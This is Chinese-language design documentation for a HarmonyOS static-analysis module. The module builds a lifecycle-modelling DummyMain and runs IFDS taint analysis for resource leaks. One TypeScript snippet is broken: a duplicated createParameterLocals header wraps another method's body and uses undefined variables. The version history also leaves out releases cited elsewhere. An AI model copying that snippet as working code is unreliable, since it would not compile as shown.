

**完整例子：onClick 回调处理**

```
输入：
  callback = {
    componentType: 'Button',
    eventType: 'onClick',
    callbackMethod: handleClick(event: ClickEvent)
  }

处理过程：
┌─────────────────────────────────────────────────┐
│ Step 1: 解析回调方法参数                         │
│   param[0]: event → ClickEvent                  │
├─────────────────────────────────────────────────┤
│ Step 2: 创建事件参数                             │
│   %event0 = new ClickEvent()                    │
├─────────────────────────────────────────────────┤
│ Step 3: 生成调用                                 │
│   invoke %component0.handleClick(%event0)       │
└─────────────────────────────────────────────────┘
```

**事件类型推断机制**：

当回调方法的参数类型未知时（Lambda 表达式常见），根据事件名称推断参数类型：



**事件类型映射表**：

| 事件方法 | 推断的参数类型 | 包含的信息 |
|---------|---------------|-----------|
| `onClick` | `ClickEvent` | 坐标、时间戳、触发源 |
| `onTouch` | `TouchEvent` | 触摸点数组、动作类型 |
| `onFocus` | `FocusEvent` | 焦点方向 |
| `onBlur` | `BlurEvent` | 失焦原因 |
| `onAppear` | 无参数 | - |
| `onDisAppear` | 无参数 | - |
| `onChange` | `string` | 新值（基本类型） |

**使用场景**：

```typescript
// Lambda 回调（类型信息可能丢失）
Button().onClick((event) => {    // ← event 类型未知
    console.log(event.screenX);
});

// inferEventParamType('onClick') 返回 ClickEvent
// 即使没有类型注解，也能正确创建参数
```

**生成的 IR 示例**：

```
源代码中的 UI 回调：
─────────────────────────────────────────────────────────────────
@Component
struct MyComponent {
    handleClick(event: ClickEvent) {
        console.log(event.screenX);
    }
    
    handleTouch(event: TouchEvent) {
        console.log(event.touches);
    }
    
    onPageShow() {
        console.log('page show');
    }
    
    build() {
        Column() {
            Button('Click').onClick(this.handleClick)
            Text('Touch').onTouch(this.handleTouch)
        }
    }
}

生成的 DummyMain IR：
─────────────────────────────────────────────────────────────────
// Component 实例化
%component0 = new MyComponent()
invoke %component0.<init>()

// 生命周期方法
invoke %component0.aboutToAppear()
invoke %component0.build()

// onClick 回调（含 ClickEvent 参数）
%event0 = new ClickEvent()       // ← 事件参数创建
invoke %component0.handleClick(%event0)

// onTouch 回调（含 TouchEvent 参数）
%event1 = new TouchEvent()       // ← 事件参数创建
invoke %component0.handleTouch(%event1)

// onPageShow（无参数）
invoke %component0.onPageShow()
```

**核心代码实现**：

```typescript
private addUICallbackInvocation(
    block: BasicBlock,
    componentLocal: Local,
    callback: UICallbackInfo
): void {
    if (!callback.callbackMethod) return;
    
    // Step 1: 为回调参数创建 Local
    const paramLocals = this.createCallbackParameterLocals(callback, block);
    
    // Step 2: 生成调用语句
    const invokeExpr = new ArkInstanceInvokeExpr(
        componentLocal,
        callback.callbackMethod.getSignature(),
        paramLocals  // ← 传入事件参数！
    );
    block.addStmt(new ArkInvokeStmt(invokeExpr));
}

private inferEventParamType(eventType: UIEventType): ClassType | null {
    const eventParamMap = {
        'onClick': 'ClickEvent',
        'onTouch': 'TouchEvent',
        'onFocus': 'FocusEvent',
        'onAppear': '',  // 无参数
        // ...
    };
    
    const className = eventParamMap[eventType];
    if (!className) return null;
    
    // 从 Scene 查找事件类
    const arkClass = this.scene.getClasses()
        .find(c => c.getName() === className);
    
    return arkClass ? new ClassType(arkClass.getSignature()) : null;
}
```

---

**核心代码实现（续 addMethodInvocation）**：

```typescript
private createParameterLocals(method: ArkMethod, block: BasicBlock): Local[] {
    
    // Step 2: 生成方法调用语句
    const invokeExpr = new ArkInstanceInvokeExpr(
        instanceLocal,
        method.getSignature(),
        paramLocals  // ← 传入参数！
    );
    const invokeStmt = new ArkInvokeStmt(invokeExpr);
    block.addStmt(invokeStmt);
}

private createParameterLocals(method: ArkMethod, block: BasicBlock): Local[] {
    const paramLocals: Local[] = [];
    
    for (const param of method.getParameters()) {
        let paramType = param.getType();
        
        // 类型未知时，从父类获取
        if (!paramType) {
            paramType = this.getParamTypeFromSuperClass(method, paramIndex);
        }
        
        // 创建参数 Local
        const paramLocal = new Local('%param' + index, paramType);
        
        // ClassType 需要 new 语句
        if (paramType instanceof ClassType) {
            const newExpr = new ArkNewExpr(paramType);
            const assignStmt = new ArkAssignStmt(paramLocal, newExpr);
            block.addStmt(assignStmt);
        }
        
        paramLocals.push(paramLocal);
    }
    
    return paramLocals;
}
```

---

### 4.6 污点分析模块（taint/）

污点分析用于在**整程序**层面追踪“资源/闭包/内存”从产生点（Source）到释放点（Sink）的流动，并报告未被正确释放的泄漏。本模块与生命周期建模紧密配合：以 **DummyMain** 为入口进行 IFDS 分析，从而覆盖多 Ability、多回调路径。

**各文件职责简述**：

| 文件 | 职责 |
|------|------|
| `TaintFact.ts` | 污点数据结构（AccessPath、SourceContext、TaintFact），借鉴 FlowDroid |
| `SourceSinkManager.ts` | Source/Sink 规则库的注册与匹配（HarmonyOS 资源/闭包/内存/分布式/display 等） |
| `TaintAnalysisProblem.ts` | 实现 `DataflowProblem<TaintFact>`：传播规则、Source/Sink 处理、有界约束 1/3、泄漏判定 |
| `TaintAnalysisSolver.ts` | IFDS 求解器 + **TaintAnalysisRunner**（构建 DummyMain、调用求解、汇总报告） |
| `ResourceLeakDetector.ts` | 仅方法内的 Source/Sink 配对检测，不依赖 IFDS |

**有界约束**：通过 `bounds.maxAbilitiesPerFlow`、`bounds.maxCallbackIterations`、`bounds.maxNavigationHops` 限制分析规模；Runner 将 `maxCallbackIterations` 传给 `LifecycleModelCreator`，影响 DummyMain 的 CFG 展开轮数。

**详细技术说明、数据流图与入门示例**请见 **[taint/README.md](taint/README.md)**。

---

### 4.7 CLI 与 GUI

- **CLI**：`cli/LifecycleAnalyzer` 提供一站式分析（生命周期 + 污点分析），`ReportGenerator` 支持 JSON/Text/HTML/Markdown 报告，`cli.ts` 为命令行入口。配置项与使用方式见 **[cli/README.md](cli/README.md)**。
- **GUI**：基于 Node 的 HTTP 服务（`gui/server.ts`）提供 `/api/analyze`、`/api/report` 等接口，前端输入项目路径即可分析并导出报告。启动方式与 API 说明见 **[gui/README.md](gui/README.md)**。

---

## 5. 完整流程解析

### 5.1 从代码到 DummyMain 的完整旅程

假设我们有这样一个鸿蒙项目：

```typescript
// EntryAbility.ets
export default class EntryAbility extends UIAbility {
    onCreate(want: Want) {
        console.log('Ability created');
    }
    onForeground() {
        console.log('Ability foreground');
    }
}

// Index.ets
@Entry
@Component
struct Index {
    @State count: number = 0;
    
    aboutToAppear() {
        console.log('Component appear');
    }
    
    build() {
        Column() {
            Text(`Count: ${this.count}`)
            Button('Add')
                .onClick(() => {
                    this.count++;
                })
        }
    }
}
```

### 5.2 流程图解

```
┌─────────────────────────────────────────────────────────────────────────┐
│                           Step 1: 收集信息                               │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  Scene.getClasses() 返回:                                               │
│  ┌─────────────────┐  ┌─────────────────┐                              │
│  │ EntryAbility    │  │ Index           │                              │
│  │ extends         │  │ @Component      │                              │
│  │ UIAbility       │  │ @Entry          │                              │
│  └────────┬────────┘  └────────┬────────┘                              │
│           │                    │                                        │
│           ▼                    ▼                                        │
│  isAbilityClass()? ✓   isComponentClass()? ✓                           │
│           │                    │                                        │
│           ▼                    ▼                                        │
│  ┌─────────────────┐  ┌─────────────────┐                              │
│  │ AbilityInfo:    │  │ ComponentInfo:  │                              │
│  │ name: Entry...  │  │ name: Index     │                              │
│  │ methods:        │  │ methods:        │                              │
│  │  onCreate ✓     │  │  aboutToAppear✓ │                              │
│  │  onForeground ✓ │  │  build ✓        │                              │
│  └─────────────────┘  └─────────────────┘                              │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                         Step 2: 提取 UI 回调                             │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  Index.getViewTree():                                                   │
│                                                                         │
│       Column                                                            │
│         ├── Text                                                        │
│         │     └── attributes: {}                                        │
│         └── Button                                                      │
│               └── attributes: { onClick: [lambda] }                     │
│                                      │                                  │
│                                      ▼                                  │
│                             ┌─────────────────┐                         │
│                             │ UICallbackInfo: │                         │
│                             │ type: Button    │                         │
│                             │ event: onClick  │                         │
│                             │ method: lambda  │                         │
│                             └─────────────────┘                         │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                          Step 3: 创建容器                                │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  创建虚拟结构:                                                           │
│                                                                         │
│  @extendedDummyFile (虚拟文件)                                          │
│      └── @extendedDummyClass (虚拟类)                                   │
│              └── @extendedDummyMain() (虚拟方法) ← 这就是我们的目标      │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                          Step 4: 构建 CFG                                │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  生成的控制流图:                                                         │
│                                                                         │
│  ┌─────────────┐                                                        │
│  │ Entry Block │ staticInit(); count = 0;                               │
│  └──────┬──────┘                                                        │
│         │                                                               │
│         ▼                                                               │
│  ┌─────────────┐◄─────────────────────────────────────┐                │
│  │ While Block │ while (true)                         │                │
│  └──────┬──────┘                                      │                │
│         │                                             │                │
│    ┌────┴────┐                                        │                │
│    ▼         ▼                                        │                │
│ ┌─────┐   ┌─────┐                                     │                │
│ │if==1│   │if==2│                                     │                │
│ └──┬──┘   └──┬──┘                                     │                │
│    │         │                                        │                │
│    ▼         ▼                                        │                │
│ ┌──────────────────┐  ┌──────────────────────────┐   │                │
│ │ Ability 分支:    │  │ Component 分支:          │   │                │
│ │ ability = new    │  │ comp = new Index()       │   │                │
│ │   EntryAbility() │  │ comp.aboutToAppear()     │   │                │
│ │ ability.onCreate │  │ comp.build()             │   │                │
│ │ ability.onFore.. │  │ comp.onClick_handler()   │   │                │
│ └────────┬─────────┘  └────────────┬─────────────┘   │                │
│          │                         │                  │                │
│          └─────────────────────────┴──────────────────┘                │
│                                                                         │
│         ▼                                                               │
│  ┌──────────────┐                                                       │
│  │ Return Block │ return;                                               │
│  └──────────────┘                                                       │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                          Step 5: 注册到 Scene                            │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  scene.addToMethodsMap(dummyMain)                                       │
│                                                                         │
│  现在可以：                                                              │
│  - scene.getMethod("@extendedDummyMain") 获取这个方法                   │
│  - dummyMain.getCfg() 获取控制流图                                      │
│  - 用于后续的污点分析、数据流分析等                                       │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 6. 类与函数详解

### 6.1 枚举类型

| 枚举 | 用途 | 值示例 |
|------|------|--------|
| `AbilityLifecycleStage` | Ability 生命周期阶段 | `CREATE`, `FOREGROUND`, `DESTROY` |
| `ComponentLifecycleStage` | Component 生命周期阶段 | `ABOUT_TO_APPEAR`, `BUILD` |
| `UIEventType` | UI 事件类型 | `ON_CLICK`, `ON_TOUCH` |
| `NavigationType` | 页面跳转类型 | `START_ABILITY`, `ROUTER_PUSH` |

### 6.2 接口类型

#### AbilityInfo

```typescript
interface AbilityInfo {
    arkClass: ArkClass;        // 原始类引用
    signature: ClassSignature; // 类签名（唯一标识）
    name: string;              // 类名
    lifecycleMethods: Map;     // 生命周期方法集合
    components: ComponentInfo[];// 关联的 UI 组件
    navigationTargets: [];     // 可跳转的目标
    isEntry: boolean;          // 是否是启动入口
}
```

#### ComponentInfo

```typescript
interface ComponentInfo {
    arkClass: ArkClass;
    signature: ClassSignature;
    name: string;
    lifecycleMethods: Map;     // aboutToAppear, build 等
    uiCallbacks: UICallbackInfo[]; // 从 ViewTree 提取的回调
    isEntry: boolean;          // 是否有 @Entry 装饰器
}
```

#### UICallbackInfo

```typescript
interface UICallbackInfo {
    componentType: string;     // "Button", "Text", "Image"
    eventType: UIEventType;    // ON_CLICK, ON_TOUCH
    callbackMethod: ArkMethod; // 实际的回调函数
    relatedStateValues: [];    // 依赖的 @State 变量
    viewTreeNode?: ViewTreeNode; // ViewTree 节点引用
}
```

### 6.3 核心类

#### AbilityCollector

| 方法 | 参数 | 返回值 | 说明 |
|------|------|--------|------|
| `constructor` | `scene: Scene` | - | 初始化收集器 |
| `collectAllAbilities` | - | `AbilityInfo[]` | 收集所有 Ability |
| `collectAllComponents` | - | `ComponentInfo[]` | 收集所有 Component |
| `getEntryAbility` | - | `AbilityInfo \| null` | 获取入口 Ability |
| `getAbilityBySignature` | `ClassSignature` | `AbilityInfo \| undefined` | 按签名查找 |

#### ViewTreeCallbackExtractor

| 方法 | 参数 | 返回值 | 说明 |
|------|------|--------|------|
| `constructor` | `scene: Scene` | - | 初始化提取器 |
| `extractFromComponent` | `ArkClass` | `UICallbackInfo[]` | 提取单个组件的回调 |
| `fillComponentCallbacks` | `ComponentInfo` | `void` | 填充组件的回调信息 |
| `fillAllComponentCallbacks` | `ComponentInfo[]` | `void` | 批量填充 |

#### LifecycleModelCreator

| 方法 | 参数 | 返回值 | 说明 |
|------|------|--------|------|
| `constructor` | `scene, config?` | - | 初始化创建器 |
| `create` | - | `void` | **主入口**，执行完整构建 |
| `getDummyMain` | - | `ArkMethod` | 获取生成的 DummyMain |
| `getAbilities` | - | `AbilityInfo[]` | 获取收集到的 Ability |
| `getComponents` | - | `ComponentInfo[]` | 获取收集到的 Component |

---

## 7. 使用示例

### 7.1 基本使用

```typescript
import { Scene } from '../Scene';
import { LifecycleModelCreator } from './TEST_lifecycle';

// 1. 构建 Scene（已有代码）
const scene = new Scene();
scene.buildSceneFromProjectDir('/path/to/project');

// 2. 创建扩展版 DummyMain
const creator = new LifecycleModelCreator(scene);
creator.create();

// 3. 获取结果
const dummyMain = creator.getDummyMain();
console.log('DummyMain 签名:', dummyMain.getSignature().toString());
console.log('CFG 块数量:', dummyMain.getCfg()?.getBlocks().length);
```

### 7.2 自定义配置

```typescript
const creator = new LifecycleModelCreator(scene, {
    // 禁用多 Ability 跳转建模
    enableMultiAbilityNavigation: false,
    
    // 启用精细化 UI 回调
    enableFineGrainedUICallbacks: true,
    
    // 自定义生命周期顺序
    lifecycleOrder: [
        AbilityLifecycleStage.CREATE,
        AbilityLifecycleStage.FOREGROUND,
        // 跳过其他阶段
    ],
    
    // 最大跳转深度
    maxNavigationDepth: 5,
});
```

### 7.3 单独使用收集器

```typescript
import { AbilityCollector, ViewTreeCallbackExtractor } from './TEST_lifecycle';

// 只收集信息，不构建 DummyMain
const collector = new AbilityCollector(scene);
const abilities = collector.collectAllAbilities();
const components = collector.collectAllComponents();

// 打印结果
console.log('找到的 Ability:');
for (const ability of abilities) {
    console.log(`  - ${ability.name}`);
    for (const [stage, method] of ability.lifecycleMethods) {
        console.log(`      ${stage}: ${method.getName()}`);
    }
}

// 单独提取回调
const extractor = new ViewTreeCallbackExtractor(scene);
for (const component of components) {
    const callbacks = extractor.extractFromComponent(component.arkClass);
    console.log(`${component.name} 的 UI 回调:`, callbacks.length);
}
```

---

## 8. TODO 与扩展点

### 8.1 已完成功能 ✅

| 位置 | 功能 | 状态 | 说明 |
|------|------|--------|------|
| `NavigationAnalyzer.ts` | 路由分析器 | ✅ 完成 | 新增模块，专门处理路由分析 |
| `AbilityCollector.analyzeNavigationTargets()` | 跳转分析 | ✅ 完成 | 解析 loadContent/pushUrl/startAbility |
| `NavigationAnalyzer.extractRouterUrl()` | 对象参数解析 | ✅ 完成 | 支持追踪变量定义和字段赋值 |
| `NavigationAnalyzer.extractWantTarget()` | Want 对象解析 | ✅ 完成 | 解析 abilityName 字段 |
| `AbilityCollector.checkIsEntryAbility()` | 入口识别 | ✅ 完成 | 读取 module.json5 的 mainElement |
| `ViewTreeCallbackExtractor.resolveCallbackMethod()` | 回调方法解析 | ✅ 完成 | 支持 MethodSignature/FieldRef/Constant |
| `LifecycleModelCreator.addMethodInvocation()` | 生命周期参数生成 | ✅ 完成 | 自动生成 Want, WindowStage 等参数 |
| `LifecycleModelCreator.addUICallbackInvocation()` | UI 回调参数生成 | ✅ 完成 | 自动生成 ClickEvent, TouchEvent 等参数 |

### 8.1b 污点分析已完成功能 ✅

| 位置 | 功能 | 状态 | 说明 |
|------|------|--------|------|
| `taint/TaintFact.ts` | 污点数据结构 | ✅ 完成 | AccessPath + SourceContext + TaintFact + `visitedAbilities` + `navigationCount`，借鉴 FlowDroid |
| `taint/SourceSinkManager.ts` | Source/Sink 规则管理 | ✅ 完成 | 86 条规则覆盖资源/闭包/内存三类泄漏；修复同 pattern 多条规则互相覆盖 Bug |
| `taint/TaintAnalysisProblem.ts` | IFDS 问题定义 | ✅ 完成 | 继承 DataflowProblem；集成约束1（`checkAbilityBoundary`）和约束3（`isNavigationCall`） |
| `taint/TaintAnalysisSolver.ts` | IFDS 求解器 | ✅ 完成 | 继承 DataflowSolver，利用 CallGraph + CHA；`maxCallbackIterations` 传递给 LifecycleModelCreator |
| `taint/TaintAnalysisSolver.ts` | DummyMain 入口运行 | ✅ 完成 | runFromDummyMain() 以生命周期模型为入口 |
| `taint/ResourceLeakDetector.ts` | 简化版方法内检测 | ✅ 完成 | 方法内 Source/Sink 配对检测 |
| `cli/LifecycleAnalyzer.ts` | 集成 IFDS 分析 | ✅ 完成 | 一站式运行；新增 `bounds` 参数支持三条有界约束配置 |
| `NavigationAnalyzer.ts` | NavPathStack 支持 | ✅ 完成 | 新增 pushPath/pushPathByName/replacePath/replacePathByName 解析 |
| `LifecycleModelCreator.ts` | 约束2 循环展开 | ✅ 完成 | `maxCallbackIterations` 控制 CFG 循环展开次数，默认 1（DAG） |

### 8.2 待实现功能（可选扩展）

| 位置 | 功能 | 优先级 | 说明 |
|------|------|--------|------|
| ~~`taint/TaintAnalysisProblem.ts`~~ | ~~有界化约束~~ | ~~高~~ | ✅ **v2.1.0 已完成**（三条约束均已实现并接入流水线） |
| ~~`LifecycleModelCreator`~~ | ~~CFG stmtToBlock 映射~~ | ~~高~~ | ✅ **v2.0.1 已修复** |
| ~~`NavigationAnalyzer`~~ | ~~NavPathStack 支持~~ | ~~中~~ | ✅ **v2.1.0 已完成** |
| `resolveCallbackMethod()` Lambda 增强 | Lambda 完整支持 | 低 | 完整解析内联 Lambda 表达式 |
| ViewTree 增强 | 第三方 UI 框架支持 | 低 | 改进对 HdsNavigation 等组件的解析 |

### 8.2b BoundsConfig 参数说明

三条有界化约束可通过 `AnalysisOptions.bounds` 统一配置：

```typescript
import { LifecycleAnalyzer } from './cli/LifecycleAnalyzer';

const analyzer = new LifecycleAnalyzer({
    runTaintAnalysis: true,
    bounds: {
        // 约束1：单条数据流最多访问的 Ability 数量（默认 3）
        // 超出时 checkAbilityBoundary 会 kill 该数据流
        maxAbilitiesPerFlow: 3,

        // 约束2：DummyMain CFG 中回调循环的最大展开次数（默认 1）
        // =1 时 CFG 为 DAG，分析效率最高；值越大覆盖路径越多但代价越高
        maxCallbackIterations: 1,

        // 约束3：单条数据流最多经过的导航跳数（默认 5）
        // 每经过 startAbility/pushUrl/pushPath 等调用时 navigationCount +1
        // 超出时 isNavigationCall 会 kill 该数据流
        maxNavigationHops: 5,
    },
});
const result = await analyzer.analyze('/path/to/project');
```

也可以直接使用 `TaintAnalysisRunner` 进行精细控制：

```typescript
import { TaintAnalysisRunner } from './taint/TaintAnalysisSolver';

const runner = new TaintAnalysisRunner(scene, {
    maxAbilitiesPerFlow: 2,      // 约束1
    maxCallbackIterations: 1,    // 约束2
    maxNavigationHops: 3,        // 约束3
});
const result = runner.runFromDummyMain();
```

### 8.3 扩展建议

#### 添加新的生命周期阶段

```typescript
// 在 LifecycleTypes.ts 中添加
enum AbilityLifecycleStage {
    // ... 现有阶段
    ON_NEW_WANT = 'onNewWant',  // 新增
}

// 在 AbilityCollector.ts 中处理
case 'onNewWant':
    methods.set(AbilityLifecycleStage.ON_NEW_WANT, method);
    break;
```

#### 添加新的 UI 事件类型

```typescript
// 在 LifecycleTypes.ts 中添加
enum UIEventType {
    // ... 现有类型
    ON_SCROLL = 'onScroll',  // 新增
}

// 在 ViewTreeCallbackExtractor.ts 中添加映射
const METHOD_TO_EVENT_TYPE = new Map([
    // ... 现有映射
    ['onScroll', UIEventType.ON_SCROLL],
]);
```

---

## 9. 常见问题

### Q1: 为什么需要 while(true) 循环？

**答**：因为在实际应用中，生命周期方法的调用顺序是**非确定性**的。用户可能：
- 按 Home 键（触发 onBackground）
- 再打开应用（触发 onForeground）
- 点击按钮（触发 onClick）
- ...

`while(true)` + `if (count == N)` 的结构模拟了这种非确定性，让每个分支都**可能**被执行。

### Q2: 这个模块和原版 DummyMainCreater 冲突吗？

**答**：不冲突。两者是独立的：
- 原版生成 `@dummyMain`
- 本模块生成 `@extendedDummyMain`

可以同时使用，或者用本模块完全替代原版。

### Q3: 生成的 DummyMain 如何用于污点分析？

**答**：使用 `TaintAnalysisRunner.runFromDummyMain()` 即可，它内部自动完成 DummyMain 构建 → IFDS 求解：
```typescript
import { TaintAnalysisRunner } from './taint/TaintAnalysisSolver';

const runner = new TaintAnalysisRunner(scene);
const result = runner.runFromDummyMain();

if (result.success) {
    console.log(`资源泄漏: ${result.resourceLeaks.length}`);
    console.log(`污点泄漏: ${result.taintLeaks.length}`);
    console.log(`分析方法: ${result.statistics.analyzedMethods}`);
}
```
> **v2.0.1 已修复**: DummyMain CFG 的 stmtToBlock 映射问题已通过 `linkStmtsToCfg` 中追加 `cfg.updateStmt2BlockMap(block)` 解决，IFDS 求解器可正常运行。

### Q4: ViewTree 是什么时候构建的？

**答**：ViewTree 是在 ArkAnalyzer 构建 Scene 时自动生成的。对于有 `build()` 方法的 `@Component` 类，ArkAnalyzer 会解析其 UI 结构并生成 ViewTree。

我们的模块只是**读取**这个已有的 ViewTree，提取其中的回调信息。

---

## 📎 附录

### A. 参考资料

- 原版 DummyMainCreater: `src/core/common/DummyMainCreater.ts`
- ViewTree 实现: `src/core/graph/ViewTree.ts`
- ViewTree 构建器: `src/core/graph/builder/ViewTreeBuilder.ts`
- 入口方法工具: `src/utils/entryMethodUtils.ts`

### B. 版本历史

| 版本 | 日期 | 说明 |
|------|------|------|
| **2.0.1** | **2026-03-01** | **修复 DummyMain CFG stmtToBlock 映射 + AccessPath 构造参数错位，四个真实项目 IFDS 完整通过** |
| **2.0.0** | **2026-03-01** | **污点分析集成：IFDS 求解器 + 86 条 Source/Sink 规则 + 4 个真实项目验证** |
| **1.0.0** | **2025-03-01** | **里程碑版本：4 个真实华为 Codelab 项目验证通过** |
| 0.9.1 | 2025-03-01 | 修复 JSON5 解析问题（支持尾随逗号、单引号） |
| 0.9.0 | 2025-03-01 | 新增 UI 事件：onChange, onSelect, onSubmit, onScroll |
| 0.8.0 | 2025-02-10 | 增强动态路由参数解析，支持对象字面量 URL 提取 |
| 0.7.0 | 2025-01-29 | 增强 extractUrlFromAnonymousClass() 支持对象字面量 URL 解析 |
| 0.6.0 | 2025-01-28 | 实现 addUICallbackInvocation() UI 回调参数生成 |
| 0.5.0 | 2025-01-28 | 实现 addMethodInvocation() 生命周期方法参数生成 |
| 0.4.0 | 2025-01-28 | 实现 resolveCallbackMethod() 回调方法解析 |
| 0.3.0 | 2025-01-27 | 完善路由参数解析和 module.json5 入口识别 |
| 0.2.0 | 2025-01-27 | 新增 NavigationAnalyzer 路由分析器 |
| 0.1.0 | 2025-01-17 | 初始框架，基本结构完成 |

### C. v1.0.0 真实项目验证报告（生命周期建模）

#### 验证项目

| 项目 | 类型 | 规模 | Component | UI 回调 | 结果 |
|------|------|------|-----------|---------|:----:|
| RingtoneKit_Codelab_Demo | 铃声服务 | 小型 (2 文件) | 1 | 2 | ✅ |
| UIDesignKit_HdsNavigation_Codelab | 导航组件 | 中型 (6 文件) | 3 | 0* | ✅ |
| CloudFoundationKit_Codelab_Prefetch_ArkTS | 云开发 | 中型 (5 文件) | 3 | 8 | ✅ |
| OxHornCampus | 展示应用 | 大型 (35 文件) | 17 | 30 | ✅ |

> *UIDesignKit 使用第三方 UI 框架导致 ViewTree 为空

#### v1.0.0 关键修复

1. **JSON5 解析增强** - `AbilityCollector.parseModuleJson()` 现支持：
   - 尾随逗号 (`{ "a": 1, }`)
   - 单引号字符串 (`{ 'key': 'value' }`)
   - 单行/多行注释

2. **新增 UI 事件类型** - `ViewTreeCallbackExtractor` 新增支持：
   - `onChange` - 输入变化事件
   - `onSelect` - 选择事件
   - `onSubmit` - 提交事件
   - `onScroll` - 滚动事件

### D. v2.0.0 污点分析 + 真实项目验证报告

#### 新增功能

| 功能 | 说明 |
|------|------|
| TaintFact 数据结构 | 借鉴 FlowDroid，包含 AccessPath + SourceContext |
| SourceSinkManager | 86 条 HarmonyOS 规则，覆盖资源/闭包/内存三类泄漏 |
| TaintAnalysisProblem | 继承 DataflowProblem，定义 IFDS 传播规则 |
| TaintAnalysisSolver | 继承 DataflowSolver，利用 CallGraph + CHA 跨过程分析 |
| TaintAnalysisRunner | 封装 DummyMain 构建 + IFDS 求解的一站式运行器 |
| ResourceLeakDetector | 简化版方法内 Source/Sink 配对检测 |
| LifecycleAnalyzer 集成 | 一站式运行生命周期分析 + 污点分析 |

#### 真实项目验证（4 个 HarmonyOS Codelab 项目）

| 项目 | 难度 | 类 | 方法 | Ability | Component | Source | Sink | IFDS 方法 | IFDS 事实 | 资源泄漏 |
|------|:----:|---:|-----:|--------:|----------:|-------:|-----:|----------:|----------:|--------:|
| RingtoneKit_Codelab_Demo | 初级 | 10 | 32 | 1 | 1 | 0 | 0 | 19 | 169 | 0 |
| UIDesignKit_HdsNavigation_Codelab | 初级 | 66 | 169 | 2 | 3 | 0 | 0 | 54 | 562 | 0 |
| CloudFoundationKit_Codelab_Prefetch_ArkTS | 中级 | 16 | 49 | 1 | 3 | 0 | 0 | 22 | 184 | 0 |
| OxHornCampus | 高级 | 392 | 968 | 2 | 17 | 9 | 1 | 161 | 2644 | **1** |

> OxHornCampus 检测到 9 个 Source、1 个 Sink，IFDS 分析确认 **1 个资源泄漏**。

#### 已知问题

| 问题 | 严重程度 | 说明 |
|------|:--------:|------|
| ~~DummyMain CFG 与 DataflowSolver 不兼容~~ | ~~高~~ | ✅ **v2.0.1 已修复**。通过 `linkStmtsToCfg` 中追加 `cfg.updateStmt2BlockMap(block)` 解决 |
| ~~有界化约束未实现~~ | ~~高~~ | ✅ **v2.1.0 已完成**。三条约束全部实现并接入 CLI 流水线 |
| ~~NavPathStack API~~ | ~~中~~ | ✅ **v2.1.0 已完成**。pushPath/pushPathByName/replacePath/replacePathByName 全部支持 |
| ~~超泛化内存规则误报~~ | ~~高~~ | ✅ **v2.2.0 已修复**。删除 Map.set / Set.add / Array.push 规则，消除大规模 Source 误报 |
| 第三方 UI 框架 | 低 | HdsNavigation 等组件无法解析 ViewTree |
| 链式调用导航漏检 | 中 | `this.getUIContext().getRouter().pushUrl()` 链式调用，ArkAnalyzer IR 拆解后无法追踪 receiver 类型，OxHornCampus 等项目的导航漏检。需改 NavigationAnalyzer 的类型追溯逻辑，成本高，暂缓。 |
